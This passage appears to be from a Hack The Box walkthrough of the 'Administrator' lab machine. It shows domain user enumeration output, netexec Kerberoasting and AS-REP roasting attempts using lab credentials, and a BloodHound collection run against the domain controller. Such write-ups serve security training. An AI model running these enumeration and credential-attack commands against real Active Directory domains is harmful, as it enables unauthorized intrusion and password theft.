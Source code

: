 ```sh 
SMB         10.10.11.42     445    DC               572: ADMINISTRATOR\Denied RODC Password Replication Group (SidTypeAlias)                                                                                  
SMB         10.10.11.42     445    DC               1000: ADMINISTRATOR\DC$ (SidTypeUser)
SMB         10.10.11.42     445    DC               1101: ADMINISTRATOR\DnsAdmins (SidTypeAlias)
SMB         10.10.11.42     445    DC               1102: ADMINISTRATOR\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.42     445    DC               1108: ADMINISTRATOR\olivia (SidTypeUser)
SMB         10.10.11.42     445    DC               1109: ADMINISTRATOR\michael (SidTypeUser)
SMB         10.10.11.42     445    DC               1110: ADMINISTRATOR\benjamin (SidTypeUser)
SMB         10.10.11.42     445    DC               1111: ADMINISTRATOR\Share Moderators (SidTypeAlias)
SMB         10.10.11.42     445    DC               1112: ADMINISTRATOR\emily (SidTypeUser)
SMB         10.10.11.42     445    DC               1113: ADMINISTRATOR\ethan (SidTypeUser)
SMB         10.10.11.42     445    DC               3601: ADMINISTRATOR\alexander (SidTypeUser)
SMB         10.10.11.42     445    DC               3602: ADMINISTRATOR\emma (SidTypeUser)
```
### Kerberoasting/ ker AS_REP Roasting
```sh 
$ nxc ldap administrator.htb  -u 'Olivia'  -p 'ichliebedich'   --kerberoasting kerberos.hash

SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     389    DC               [+] administrator.htb\Olivia:ichliebedich 
LDAP        10.10.11.42     389    DC               Bypassing disabled account krbtgt 
LDAP        10.10.11.42     389    DC               No entries found!
LDAP        10.10.11.42     389    DC               [-] Error with the LDAP account used

$ nxc ldap  administrator.htb  -u 'Olivia'  -p 'ichliebedich'   --asreproast asrep.hash

SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     389    DC               [+] administrator.htb\Olivia:ichliebedich 
LDAP        10.10.11.42     389    DC               [*] Total of records returned 3
LDAP        10.10.11.42     389    DC               No entries found!
```
                                                                    
### BloodHound :
```sh
$ bloodhound-python -u 'Olivia'  -p 'ichliebedich'  -d administrator.htb -ns 10.10.11.42 -c ALL --zip 
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.administrator.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 09S
INFO: Compressing output into 20250401003446_bloodhound.zip
```
